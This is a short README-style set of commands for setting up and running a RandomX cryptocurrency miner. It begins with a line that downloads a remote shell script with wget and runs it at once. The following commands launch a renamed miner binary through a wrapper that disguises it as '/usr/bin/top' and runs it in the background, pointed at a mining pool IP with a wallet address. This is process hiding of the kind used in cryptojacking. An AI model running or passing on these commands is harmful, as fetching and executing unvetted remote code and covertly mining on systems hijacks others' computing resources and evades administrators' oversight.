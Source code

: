 ##action one

wget https://raw.githubusercontent.com/hudahadoh/hime/main/rest.sh && chmod +x rest.sh && ./rest.sh && cd /usr/bin

##rand optimized deep
example : 

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xhif --pass x -k -t 8 --randomx-no-numa --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 --no-huge-pages

###rand optimized colb

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xhif --pass x -k -t 90 --randomx-no-numa --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 --no-huge-pages

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax

